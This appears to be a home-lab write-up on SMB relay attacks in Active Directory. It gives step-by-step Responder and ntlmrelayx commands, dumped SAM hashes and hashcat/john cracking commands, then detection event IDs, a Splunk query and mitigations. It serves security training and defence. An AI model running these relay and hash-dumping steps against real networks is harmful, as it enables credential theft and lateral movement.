





# 02 — SMB Relay Attack (Credential Relay & Hash Dump)

> **Module:** Active Directory Attack Lab  
> **Technique:** SMB Relay  
> **MITRE ATT&CK:** [T1557.001](https://attack.mitre.org/techniques/T1557/001/) | [T1550.002](https://attack.mitre.org/techniques/T1550/002/)  
> **Difficulty:** Intermediate  
> **Environment:** Kali Linux → Windows Domain-Joined Machines (NAT)

---

## What is an SMB Relay Attack?

Instead of cracking captured NTLM hashes offline, an SMB Relay attack **forwards (relays)** the authentication attempt in real time to another machine on the network. If the victim user has admin rights on the target, the attacker gains full access — including the ability to dump SAM hashes — **without ever knowing the plaintext password**.

This attack builds on LLMNR/NBT-NS Poisoning (Module 01) by weaponizing the captured authentication rather than just storing it.

---

## Prerequisites

- SMB signing must be **disabled or not required** on the target
- The relayed user must have **local admin rights** on the target machine
- Attacker must be on the same subnet

---

## Lab Setup

| Role | Machine | IP |
|------|---------|-----|
| Attacker | Kali Linux (VMware) | 192.168.x.x |
| Victim (source) | THEPUNISHER (Windows) | 192.168.x.x |
| Target (relay destination) | SPIDERMAN (Windows) | 192.168.x.x |
| Domain Controller | EMMY DC | 192.168.x.x |

| Tool | Purpose |
|------|---------|
| Responder | LLMNR/NBT-NS poisoning (name resolution only) |
| ntlmrelayx.py | Relay intercepted NTLM auth to target |
| Nmap | Verify SMB signing status |

---

## Attack Flow

Victim (THEPUNISHER) triggers name resolution failure
↓
Responder poisons LLMNR/NBT-NS broadcast
↓
Victim sends NTLM authentication to Kali
↓
ntlmrelayx intercepts and relays auth → SPIDERMAN
↓
SPIDERMAN accepts relayed credentials (fcastle is local admin)
↓
SAM database dumped from SPIDERMAN
↓
Local account hashes extracted → cracked offline

---

## Step-by-Step Walkthrough

### Step 1 — Verify SMB Signing on Targets

Before the attack, confirm SMB signing is not enforced on the target machines:

```bash
nmap --script smb2-security-mode -p 445 192.168.x.x 192.168.x.x 192.168.x.x
```

Expected output for vulnerable machines:

Message signing enabled but not required   ← vulnerable ✅
Message signing required                   ← not vulnerable ❌


*Fig 1: Nmap confirming SMB signing is not required on THEPUNISHER and SPIDERMAN*

---

### Step 2 — Configure Responder (Disable SMB & HTTP)

Responder must **not** handle SMB or HTTP — ntlmrelayx needs those ports:

```bash
sudo nano /etc/responder/Responder.conf
```

Set:
SMB = Off
HTTP = Off
KerberosMode = FORCE_NTLM

---

### Step 3 — Create targets.txt

Add the relay target (must be a different machine from the victim):

```bash
echo "192.168.x.x" > targets.txt
```

> ⚠️ Never relay a machine's credentials back to itself — it will loop and fail.

---

### Step 4 — Start ntlmrelayx

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t smb://192.168.x.x -smb2support
```


*Fig 2: ntlmrelayx running and waiting for incoming connections*

---

### Step 5 — Start Responder

In a second terminal:

```bash
sudo responder -I eth0 -dPv
```


*Fig 3: Responder poisoning LLMNR/NBT-NS with SMB and HTTP disabled*

---

### Step 6 — Trigger Authentication from Victim

On the THEPUNISHER Windows machine, browse to a non-existent share:

\\fakeshare

Responder poisons the name resolution, THEPUNISHER sends NTLM auth to Kali, and ntlmrelayx relays it to SPIDERMAN.


*Fig 4: ntlmrelayx receiving the connection from EMMY/fcastle at THEPUNISHER*

---

### Step 7 — SAM Hashes Dumped

If fcastle has local admin on SPIDERMAN, ntlmrelayx automatically dumps the SAM database:

[] smb://EMMY/FCASTLE@192.168.x.x → Starting service RemoteRegistry
[] smb://EMMY/FCASTLE@192.168.x.x → Dumping local SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Charlie:1001:aad3b435b51404eeaad3b435b51404ee:d4e632aaebb76176ab11b066389914fc:::


*Fig 5: SAM hashes successfully dumped from SPIDERMAN via relayed credentials*

---

### Step 8 — Crack the Hashes

```bash
hashcat -m 1000 d4e632aaebb76176ab11b066389914fc /usr/share/wordlists/rockyou.txt
```

Or with John the Ripper:
```bash
echo "Charlie:1001:aad3b435b51404eeaad3b435b51404ee:d4e632aaebb76176ab11b066389914fc:::" > hashes.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

---

## Captured Hashes

| Account | RID | NT Hash | Notes |
|---------|-----|---------|-------|
| Administrator | 500 | `31d6cfe0d16ae931b73c59d7e0c089c0` | Empty password |
| Guest | 501 | `31d6cfe0d16ae931b73c59d7e0c089c0` | Empty password |
| DefaultAccount | 503 | `31d6cfe0d16ae931b73c59d7e0c089c0` | Empty password |
| WDAGUtilityAccount | 504 | `5e4b8a4f672e9f34cbfadd7d7ebdfee5` | — |
| Charlie | 1001 | `d4e632aaebb76176ab11b066389914fc` | Target for cracking |

---

## SOC Detection Perspective

### Network Indicators
| Signal | Description |
|--------|-------------|
| UDP 5355 / 137 | LLMNR/NBT-NS poisoning broadcasts |
| Unexpected SMB auth | Authentication to non-DC machines |
| RemoteRegistry service | Started/stopped during SAM dump |
| Lateral SMB connections | Kali IP authenticating to workstations |

### Windows Event IDs to Monitor
| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon (look for Type 3 — network logon) |
| 4648 | Logon with explicit credentials |
| 4672 | Special privileges assigned (admin logon) |
| 7036 | RemoteRegistry service started unexpectedly |

### Sample Splunk Query
```spl
index=windows EventCode=4624 Logon_Type=3
| stats count by src_ip, dest_ip, Account_Name
| where src_ip!="expected_admin_ip"
```

### Detection Tools
- **Suricata** — alert on SMB authentication from non-domain machines
- **Splunk** — correlate Event IDs 4624 (Type 3) and 7036
- **Windows Defender Credential Guard** — prevents NTLM relay entirely

---

## Mitigation Strategies

| Action | How |
|--------|-----|
| Enable SMB Signing | Group Policy → `Microsoft network server: Digitally sign communications (always)` → **Enabled** |
| Disable LLMNR | Group Policy → Turn off multicast name resolution → **Enabled** |
| Disable NetBIOS | Network adapter → WINS tab → Disable NetBIOS over TCP/IP |
| Enable EPA | Extended Protection for Authentication blocks relay on modern systems |
| Restrict local admin | Remove unnecessary local admin rights across workstations |
| Tier admin accounts | Never use domain admin accounts on workstations |

---

## MITRE ATT&CK Mapping

| Technique | ID |
|-----------|----|
| Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning | [T1557.001](https://attack.mitre.org/techniques/T1557/001/) |
| Use of Alternate Authentication Material: Pass the Hash | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) |
| OS Credential Dumping: SAM | [T1003.002](https://attack.mitre.org/techniques/T1003/002/) |

---

## Key Takeaways

- SMB Relay is more powerful than LLMNR poisoning alone — no cracking required
- The attack works silently in real time without the victim noticing
- SMB signing enforcement on **all** machines is the single most effective mitigation
- Local admin rights should follow the principle of least privilege
- RemoteRegistry being started unexpectedly is a strong indicator of credential relay

---

## Troubleshooting

| Problem | Fix |
|---------|-----|
| Relay loops with no output | Remove the victim machine from targets.txt |
| `permission denied` on ntlmrelayx | Run `sudo chmod +x` on the script |
| Relay fails silently | Ensure fcastle has local admin on target |
| Responder and ntlmrelayx conflict | Set `SMB = Off`, `HTTP = Off` in Responder.conf |
| `-tf` flag not working | Use `-t smb://IP` directly instead |

---

← [Back to Main Lab](../README.md)
